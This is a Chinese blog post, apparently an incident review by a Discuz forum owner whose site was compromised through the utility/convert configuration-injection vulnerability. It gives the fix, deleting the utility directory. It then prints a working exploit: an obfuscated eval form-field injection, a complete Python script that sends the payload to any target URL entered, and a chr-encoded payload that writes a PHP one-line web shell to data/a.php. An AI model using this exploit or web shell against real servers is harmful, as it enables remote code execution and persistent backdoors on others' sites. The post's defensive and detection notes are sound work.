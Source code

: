 ```yaml
---
title: 140126 discuz站点被黑,复盘
layout: post
permalink: /2719.html
categories:
  - Code
tags:
  - discuz
  - utility
  - 漏洞
---
```

手里一个站点被黑了 也就是大概2013-12-20号左右，乌云爆了一个关于discuz安装包中自带升级转化工具配置未过滤得漏洞，当时没有注意，并不认为自己会犯这样的错。 事实狠狠的给了我一个巴掌。在这里我不得不说discuz,360safe,anquan这类的网站实时性很差。

### discuz utility 漏洞修复

删除 utility目录即可。

### 具体漏洞演示：

访问：www.80aj.com/utility/convert/index.php

[<img src="http://pic.80aj.com/2014/01/ld-300x200.jpg" alt="ld" width="300" height="200" class="aligncenter size-medium wp-image-2721" />][1]  
修改表单 新增输入项

<pre class="brush: php; title: ; notranslate" title="">&lt;input type="text" name="newconfig[aaa eval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).
CHR(84).CHR(91).CHR(99).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]" size="40" value="localhost" /&gt;

</pre>

### discuz漏洞 直接黑客利用Python代码:

<pre class="brush: php; title: ; notranslate" title="">#coding=utf-8
#Nx4dm1n 2013-12
import httplib, urllib
def dzconvertexp(url,vulfile):
    allvulfile=vulfile+'convert/index.php'
    target='http://'+url+vulfile
    page=urllib.urlopen(target)
    html=page.read()
    httpresponse=page.getcode()
    if httpresponse==200:
        httpClient = None
        try:
            params ='a=config&source=d7.2_x2.0&submit=yes&newconfig%5Bsource%5D%5Bdbhost%5D=localhost&newconfig%5Baaa%0D%0A%0D%0Aeval%28CHR%28101%29.CHR%28118%29.CHR%2897%29.CHR%28108%29.CHR%2840%29.CHR%2834%29.CHR%2836%29.CHR%2895%29.CHR%2880%29.CHR%2879%29.CHR%2883%29.CHR%2884%29.CHR%2891%29.CHR%2899%29.CHR%2893%29.CHR%2859%29.CHR%2834%29.CHR%2841%29.CHR%2859%29%29%3B%2F%2F%5D=localhost'
            print params
            headers = {"Content-type": "application/x-www-form-urlencoded", "Accept": "text/html"}
 
            httpClient = httplib.HTTPConnection(url, 80, timeout=10)
            httpClient.request("POST",allvulfile, params, headers)
            response = httpClient.getresponse()
            print response.getheaders()
        except Exception, e:
            print e
        finally:
            if httpClient:
                httpClient.close()
    else:
        print 'no'
 
#输入目标url和convert的目录，常见的是/utility/目录，或者就直接是在根目录下
url=raw_input('Input url(No http):')
dirm=raw_input('Input the convert directory(ex:/utility/):')
dzconvertexp(url,dirm);
</pre>

<pre class="brush: php; title: ; notranslate" title="">//黑客代码 
chr(102).chr(112).chr(117).chr(116).chr(115).chr(40).chr(102).chr(111).chr(112).chr(101).chr(110).chr(40).chr(39).chr(100).chr(97).chr(116).chr(97).chr(47).chr(97).chr(46).chr(112).chr(104).chr(112).chr(39).chr(44).chr(39).chr(119).chr(39).chr(41).chr(44).chr(39).chr(60).chr(63).chr(112).chr(104).chr(112).chr(32).chr(101).chr(118).chr(97).chr(108).chr(40).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91).chr(99).chr(109).chr(100).chr(93).chr(41).chr(63).chr(62).chr(39).chr(41).chr(59);

//转换后的值
fputs(fopen('data/a.php','w'),'&lt;?php eval($_POST[cmd])?&gt;');


//其中几个数值是一句话木马必备的  查杀的时候需要分开

chr(101);
chr(118);
chr(97);
chr(108);
chr(69);
chr(86);
chr(65);
chr(76);
</pre>

资料参考：

http://www.myhack58.com/Article/html/3/62/2013/41505.htm

http://www.wooyun.org/bugs/wooyun-2010-014681

http://www.nxadmin.com/penetration/1224.html

 [1]: http://pic.80aj.com/2014/01/ld.jpg